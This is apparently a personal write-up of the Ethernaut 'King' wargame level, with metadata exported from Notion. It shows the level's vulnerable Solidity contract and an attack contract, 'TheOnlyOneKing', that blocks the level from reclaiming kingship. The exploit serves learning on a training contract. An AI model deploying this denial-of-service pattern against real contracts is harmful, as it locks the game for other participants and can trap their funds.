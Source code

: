 ```yaml
---
title: "King"
date: "2024-02-02"
lastmod: "2024-02-12T14:45:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Vault-d8ba3eafb273440f9a492b042e65f214"
weight: 9
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/9"
next: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "8338a297-a2b4-47b3-b401-66c68586199d"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T14:45:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel9.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Vault-d8ba3eafb273440f9a492b042e65f214"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Vault-d8ba3eafb273440f9a492b042e65f214"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-02"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 9
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
          href: null
    type:
      id: "s%7DKc"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "docs"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "docs"
          href: null
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "King"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "King"
          href: null
  url: "https://www.notion.so/King-8338a297a2b447b3b40166c68586199d"
  public_url: null
UPDATE_TIME: "2024-02-13T10:44:01.014Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD


Such a fun game. Your goal is to break it.


When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```


> 💡 Most of Ethernaut's levels try to expose (in an oversimplified form of   
> course) something that actually happened — a real hack or a real bug.  
> In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface King {
  function prize() external returns(uint);
  function owner() external returns(address);
  receive() external payable;
  function _king() external view returns (address);
}

contract TheOnlyOneKing {
  King fakeKing;

  constructor(address payable _fakeKing) {
    fakeKing = King(_fakeKing);
  }

  function becomeTheOnlyOneKing() public payable {
    uint prize = fakeKing.prize();
    (bool success,) = address(fakeKing).call{value: prize}("");
    require(success, 'failed become the only one king');
  }

  receive() external payable {
    if (fakeKing._king() != address(this)) {
      payable(fakeKing).transfer(msg.value);
    }
  }
}
```


This solution is overkill since we can just forbid the to send ether to a contract just by not implementing any fallback function. But this solution is more fun since it’s like TheOnlyOneKing is always fighting back for his crown ! 👑

